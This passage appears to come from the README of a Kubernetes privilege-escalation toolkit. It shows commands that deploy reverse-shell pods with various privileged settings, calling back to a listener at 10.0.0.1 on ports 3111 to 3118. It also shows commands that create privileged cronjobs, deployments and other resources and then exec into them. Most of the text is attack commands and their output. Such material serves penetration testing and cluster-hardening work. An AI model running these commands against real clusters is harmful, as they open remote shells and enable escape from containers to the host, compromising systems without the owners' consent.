 ```
HOST="10.0.0.1" PORT="3111" envsubst < ./manifests/everything-allowed/pod/everything-allowed-revshell-pod.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3112" envsubst < ./manifests/priv-and-hostpid/pod/priv-and-hostpid-revshell-pod.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3113" envsubst < ./manifests/priv/pod/priv-revshell-pod.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3114" envsubst < ./manifests/hostpath/pod/hostpath-revshell-pod.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3115" envsubst < ./manifests/hostpid/pod/hostpid-revshell-pod.yaml  | kubectl apply -f -
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/hostnetwork/pod/hostnetwork-revshell-pod.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3117" envsubst < ./manifests/hostipc/pod/hostipc-revshell-pod.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3118" envsubst < ./manifests/nothing-allowed/pod/nothing-allowed-revshell-pod.yaml | kubectl apply -f -
```
### Create a cronjob with the hostNetwork pod
```
kubectl apply -f manifests/hostnetwork/cronjob/hostnetwork-exec-cronjob.yaml
```

Find the created pod
```
kubectl get pods | grep cronjob
 
NAME                                        READY   STATUS    RESTARTS   AGE
hostnetwork-exec-cronjob-1607351160-gm2x4   1/1     Running   0          24s
```

Exec into pod
```
kubectl exec -it hostnetwork-exec-cronjob-1607351160-gm2x4 -- bash
```

### Create a deployment with the priv-and-hostpid pod
```
kubectl apply -f manifests/priv-and-hostpid/deployment/priv-and-hostpid-exec-deployment.yaml
```
Find the created pod
```
kubectl get pods | grep deployment

priv-and-hostpid-exec-deployment-65dbfbf947-qwpz9   1/1     Running   0          56s
priv-and-hostpid-exec-deployment-65dbfbf947-tghqh   1/1     Running   0          56s
```
Exec into pod
```
kubectl exec -it priv-and-hostpid-exec-deployment-65dbfbf947-qwpz9 -- bash
```

### Create all eight resource types using the everything-allowed pod
```
find manifests/everything-allowed/ -name "*-exec-*.yaml" -exec kubectl apply -f {} \;

cronjob.batch/everything-allowed-exec-cronjob created
daemonset.apps/everything-allowed-exec-daemonset created
deployment.apps/everything-allowed-exec-deployment created
job.batch/everything-allowed-exec-job created
pod/everything-allowed-exec-pod created
replicaset.apps/everything-allowed-exec-replicaset created
replicationcontroller/everything-allowed-exec-replicationcontroller created
service/everything-allowed-exec-statefulset-service created
statefulset.apps/everything-allowed-exec-statefulset created
```